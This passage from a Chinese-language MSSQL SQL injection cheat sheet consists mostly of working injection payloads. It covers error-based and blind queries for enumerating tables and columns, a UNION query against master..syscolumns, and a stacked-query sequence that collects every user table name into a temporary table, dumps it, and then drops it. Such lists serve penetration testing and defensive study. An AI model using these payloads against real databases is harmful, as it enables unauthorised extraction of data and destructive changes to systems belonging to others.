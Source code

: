 ### 报错类型:

```
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables)
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables)) 
```

### 检索列

我们可以从两个不同的数据库，`information_schema.columns` 或 `masters..syscolumns`中检索列。

### 联合查询:

```
UNION SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename') 
```

### 盲注类型:

```
AND SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns > 'A' 
```

### 报错类型:

```
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns)
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns WHERE column_name NOT IN(SELECT TOP 1 column_name FROM information_schema.columns)) 
```

### 一次性检索多个表

下面的 3 个查询将创建一个临时表/列 并插入所有用户定义的表，然后把表的内容进行转储并删除

创建临时表/列和插入数据：

```
AND 1=0; BEGIN DECLARE @xy varchar(8000) SET @xy=':' SELECT @xy=@xy+' '+name FROM sysobjects WHERE xtype='U' AND name>@xy SELECT @xy AS xy INTO TMP_DB END; 
```

转储内容：

```
AND 1=(SELECT TOP 1 SUBSTRING(xy,1,353) FROM TMP_DB); 
```

删除表：

```
AND 1=0; DROP TABLE TMP_DB; 
```

MSSQL2005 及更高版本中使用 xml for path 函数作为连接符，可一次性查询所有表。
